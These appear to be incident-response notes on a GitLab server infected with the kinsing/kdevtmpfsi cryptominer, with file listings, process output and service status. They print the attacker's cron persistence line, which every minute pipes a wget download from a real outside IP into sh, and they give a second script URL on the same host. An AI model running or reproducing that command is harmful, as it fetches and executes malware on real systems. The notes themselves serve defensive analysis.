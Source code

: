 http://185.122.204.197/scg.sh

* 定时任务 - `/var/spool/cron/git`
```Shell
* * * * * wget -q -O - http://185.122.204.197/unk.sh | sh > /dev/null 2>&1
```
* 木马文件
```Console
-rw------- 1 root root      75 Apr 28 12:13 git
---x--x--x 1 root root 2084964 Apr 28 13:51 kdevtmpfsi
-rwx--x--x 1 root root 2084964 Apr 28 13:56 kdevtmpfsi206653195
-rwx--x--x 1 git  git  2084964 Apr 28 14:01 kdevtmpfsi439684469
-rwx--x--x 1 git  git  2084964 Apr 28 14:09 kdevtmpfsi521744249
-rwx--x--x 1 git  git  2084964 Apr 28 14:05 kdevtmpfsi535073135
---x--x--x 1 root root 6316032 Apr 26 23:46 kinsing
---x--x--x 1 root root   26800 Apr 27 06:37 libsystem.so
```

* kdevtmpfs
root          23       2  0 Apr26 ?        00:00:00 [kdevtmpfs]
git      1354552       1  0 14:09 ?        00:00:00 /tmp/kdevtmpfsi521744249
root     1363666 1031052  0 14:12 pts/5    00:00:00 grep --color=auto 

* find / -name kdevtmpfsi
find: ‘/proc/1380107’: No such file or directory
find: ‘/proc/1380177’: No such file or directory
find: ‘/proc/1380180’: No such file or directory
find: ‘/proc/1380182’: No such file or directory
/var/tmp/kdevtmpfsi

* find / -name kinsing
find: ‘/proc/1388501’: No such file or directory
find: ‘/proc/1388502’: No such file or directory
find: ‘/proc/1388503’: No such file or directory
find: ‘/proc/1388504’: No such file or directory
find: ‘/proc/1388505’: No such file or directory

* systemctl status gitlab-runsvdir.service
gitlab-runsvdir.service - GitLab Runit supervision process
   Loaded: loaded (/usr/lib/systemd/system/gitlab-runsvdir.service; enabled; vendor preset: disabled)
   Active: active (running) since Wed 2023-04-26 20:40:04 CST; 1 day 17h ago
 Main PID: 1984 (runsvdir)
    Tasks: 318 (limit: 4915)
   Memory: 2.4G
   CGroup: /system.slice/gitlab-runsvdir.service
           ├─   1984 runsvdir -P /opt/gitlab/service log: .....................................................................................................>
           ├─   1987 runsv node-exporter
           ├─   1988 runsv logrotate
           ├─   1989 runsv postgresql
           ├─   1990 runsv postgres-exporter
           ├─   1991 runsv redis
           ├─   1992 runsv gitaly
           ├─   1993 runsv grafana
           ├─   1994 runsv alertmanager
           ├─   1995 runsv unicorn
           ├─   1996 runsv sidekiq
           ├─   1997 runsv nginx
           ├─   1998 runsv prometheus
           ├─   1999 runsv gitlab-workhorse
           ├─   2000 runsv gitlab-exporter
           ├─   2001 runsv redis-exporter
           ├─   2002 svlogd -tt /var/log/gitlab/grafana
           ├─   2003 svlogd -tt /var/log/gitlab/nginx
           ├─   2004 svlogd -tt /var/log/gitlab/postgres-exporter
           ├─   2005 svlogd -tt /var/log/gitlab/node-exporter
           ├─   2006 svlogd /var/log/gitlab/sidekiq
           ├─   2007 svlogd -tt /var/log/gitlab/gitlab-exporter
           ├─   2008 svlogd -tt /var/log/gitlab/redis-exporter
           ├─   2009 svlogd -tt /var/log/gitlab/logrotate
           ├─   2012 svlogd -tt /var/log/gitlab/alertmanager
           ├─   2013 svlogd /var/log/gitlab/gitlab-workhorse
           ├─   2014 /opt/gitlab/embedded/bin/grafana-server -config /var/opt/gitlab/grafana/grafana.ini
           ├─   2015 nginx: master process /opt/gitlab/embedded/sbin/nginx -p /var/opt/gitlab/nginx
           ├─   2016 /opt/gitlab/embedded/bin/node_exporter --web.listen-address=localhost:9100 --collector.mountstats --collector.runit --collector.runit.serv>
           ├─   2017 /opt/gitlab/embedded/bin/postgres_exporter --web.listen-address=localhost:9187 --extend.query-path=/var/opt/gitlab/postgres-exporter/queri>
           ├─   2019 /opt/gitlab/embedded/bin/redis_exporter --web.listen-address=localhost:9121 --redis.addr=unix:///var/opt/gitlab/redis/redis.socket
           ├─   2020 svlogd -tt /var/log/gitlab/prometheus
           ├─   2021 /opt/gitlab/embedded/bin/alertmanager --web.listen-address=localhost:9093 --storage.path=/var/opt/gitlab/alertmanager/data --config.file=/>
           ├─   2022 puma 4.3.3.gitlab.2 (tcp://localhost:9168) [gitlab-exporter]
           ├─   2023 /opt/gitlab/embedded/bin/prometheus --web.listen-address=localhost:9090 --storage.tsdb.path=/var/opt/gitlab/prometheus/data --config.file=>
           ├─   2024 /opt/gitlab/embedded/bin/gitlab-workhorse -listenNetwork unix -listenUmask 0 -listenAddr /var/opt/gitlab/gitlab-workhorse/socket -authBack>
           ├─   2025 sidekiq 5.2.7 gitlab-rails [0 of 25 busy]
           ├─   2026 svlogd -tt /var/log/gitlab/redis
           ├─   2027 svlogd /var/log/gitlab/gitaly
           ├─   2028 svlogd -tt /var/log/gitlab/unicorn
           ├─   2029 svlogd -tt /var/log/gitlab/postgresql
           ├─   2030 /bin/bash /opt/gitlab/embedded/bin/gitlab-unicorn-wrapper
           ├─   2031 /opt/gitlab/embedded/bin/postgres -D /var/opt/gitlab/postgresql/data
           ├─   2032 /opt/gitlab/embedded/bin/gitaly-wrapper /opt/gitlab/embedded/bin/gitaly /var/opt/gitlab/gitaly/config.toml
           ├─   2033 /opt/gitlab/embedded/bin/redis-server 127.0.0.1:0
           ├─   2100 nginx: worker process
